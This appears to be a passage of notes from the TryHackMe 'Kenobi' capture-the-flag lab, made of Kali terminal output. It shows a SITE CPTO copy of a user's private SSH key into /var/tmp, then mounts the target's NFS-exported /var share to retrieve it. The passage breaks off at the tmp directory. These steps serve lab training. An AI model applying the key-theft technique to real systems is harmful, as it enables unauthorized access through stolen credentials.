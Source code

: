 SITE CPTO /var/tmp/id_rsa
250 Copy successful

# it was found earlier that /var was mounted so that we could see it, so by moving Kenobi's private key to the /var/tmp directory it should be possible to see it!
# way to access it = mount /var/tmp to THIS machine:
(kali㉿kali)-[~/THM/practice/kenobi]
└─$ sudo mkdir /mnt/kenobiNFS                                                                             148 ⨯ 2 ⚙
[sudo] password for kali: 

┌──(kali㉿kali)-[~/THM/practice/kenobi]
└─$ mount 10.10.5.175:/var /mnt/kenobiNFS                                                                       2 ⚙
mount.nfs: failed to apply fstab options


┌──(kali㉿kali)-[~/THM/practice/kenobi]
└─$ sudo !!                                                                                                32 ⨯ 2 ⚙
                                                                                                                    
┌──(kali㉿kali)-[~/THM/practice/kenobi]
└─$ sudo mount 10.10.5.175:/var /mnt/kenobiNFS                                                             32 ⨯ 2 ⚙
                                                                                                                    
┌──(kali㉿kali)-[~/THM/practice/kenobi]
└─$ ls -la /mnt/kenobiNFS                                                                                       2 ⚙
total 56
drwxr-xr-x 14 root root    4096 Sep  4  2019 .
drwxr-xr-x  3 root root    4096 Jan 30 13:31 ..
drwxr-xr-x  2 root root    4096 Sep  4  2019 backups
drwxr-xr-x  9 root root    4096 Sep  4  2019 cache
drwxrwxrwt  2 root root    4096 Sep  4  2019 crash
drwxr-xr-x 40 root root    4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff   4096 Apr 12  2016 local
lrwxrwxrwx  1 root root       9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root crontab 4096 Sep  4  2019 log
drwxrwsr-x  2 root mail    4096 Feb 26  2019 mail
drwxr-xr-x  2 root root    4096 Feb 26  2019 opt
lrwxrwxrwx  1 root root       4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root    4096 Jan 29  2019 snap
drwxr-xr-x  5 root root    4096 Sep  4  2019 spool
drwxrwxrwt  6 root root    4096 Jan 30 13:29 tmp
drwxr-xr-x  3 root root    4096 Sep  4  2019 www

# its not possible to see after its been copied here, but the tmp directory is green, meaning we have access to it!
(kali㉿kali)-[~/THM/practice/kenobi]
└─$ cd /mnt/kenobiNFS/tmp                                                                                       2 ⚙
                                                                                                                    